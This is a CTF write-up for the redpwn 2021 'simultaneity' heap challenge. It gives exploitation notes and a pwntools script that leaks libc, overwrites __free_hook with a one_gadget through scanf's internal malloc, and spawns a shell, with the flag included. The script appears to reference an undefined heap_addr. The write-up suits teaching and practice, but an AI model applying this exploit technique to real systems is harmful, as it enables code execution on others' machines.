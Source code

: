```yaml
---
title: simultaneity
date: 2021-07-11
categories: [pwn]
tags: [redpwn2021]
toc: false
---
```


#### Notes:
- Upon initial inspection we see that all mitigations are enabled besides stack canary (Full RELRO, PIE, NX)
- Looking at the code we can see that there are multiple scanf() calls as well as a leak from calling malloc() with a user specified size
- Now this is looking like a write what where primitive, with full relro, meaning we can't overwrite GOT entries and have to look deeper
- I was overthinking this challenge heavily and went off on several tangents, digging into FSOP and rtld based exploits (which are interesting)

#### Behavior:
- The program asks us "how big?" (long integer) which prompts our size input and allows us to leak a pointer to heap memory
- The program asks us "how far?" prompting another input (long integer)
- Finally, the program asks us "what?" prompting us to write to an address + distance (unsigned int with length modifier)

#### Caveats: 
- Since this is a write what where challenge, we usually can just overwrite a function that will be called later and we win. But in this case, we only have one 8byte write and _exit is being called instead of exit(), which eliminates the chances of using rtld based exploits. 
    - https://koharinn.tistory.com/218
- So we know that we can only write one time and something has to happen "simultaneously" (name of the challenge gives a subtle hint)

#### Plan:
- We need a libc leak of some kind, but we only get a pointer to a heap address. So by providing a large input such as 900000, we get a leak to a mmap'd location, which is close to libc
- Using the above leak, we can calculate the libc base and our target
- Looking at how the last scanf() uses %zu as a format specifier, we can abuse the scanf() internals by causing it to create heap space on our payload as well as overwrite our target function
- Using the distance formula my friend created (@biazo), we targeted the __free_hook function and forced scanf() to call malloc by providing an input that contains 0x1000 '0' + one_gadget  
- This works because sending 000000000000000...0000+one_gadget will basically create heap space without messing up our payload (it will treat it like 000009 = 9). Trying 111111111.11111+one_gadget will overwrite __free_hook with 0xffffffffffffff 

#### main():

![Snippet of main()](/assets/img/redpwn2021/main.png)

#### PoC:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./simultaneity --host mc.ax --port 31547
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./simultaneity')
context.terminal = ['tmux','splitw','-v']
libc = ELF('./libc.so.6')
# libc = exe.libc

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mc.ax'
port = int(args.PORT or 31547)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
set verbose on
tbreak main
b __isoc99_scanf
b _exit
continue
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

def dist(heap_addr, target_addr):
    target_index = (0xFFFF_FFFF_FFFF_FFFF - heap_addr) + target_addr + 8
    target_index = (target_index >> 3)
    return target_index

def run(m_len):

    io.sendlineafter(b'how big?\n', str(m_len))

    io.recvuntil('you are here: ')

    leak_addr = int(io.recvline()[:-1],16)
    print(f'Leaked addr is {hex(leak_addr)}')
    libc_base = leak_addr + 0xdbff0
    print('Libc base: ', hex(libc_base))
    libc.address = libc_base

    # Change target address for write where
    # __free_hook
    target_addr = libc.address + 0x1bd8e8
    print('target addr: ', hex(target_addr))
    m_index = dist(heap_addr, target_addr)
    print('how far?: ', m_index)
    io.sendlineafter(b'how far?\n', str(m_index))

    # Change target_data for write what 
    """
    one_gadgets:
    0x4484f
    0x448a3
    0xe5456
    """
    libc_target_offset = 0xe5456
    target_data = libc.address + libc_target_offset

    one_gad = target_data
    print(f'Writing {hex(target_data)}')
    # Create large input with many zeroes to force scanf to call malloc/free without changing our one_gad payload
    io.sendlineafter(b'what?\n', str(0x1000 * '0')+str(one_gad))
io = start(env={"LD_PRELOAD":"./libc.so.6 "})

run(900000)

io.interactive()
#flag{sc4nf_i3_4_h34p_ch4l13ng3_TKRs8b1DRlN1hoLJ}
```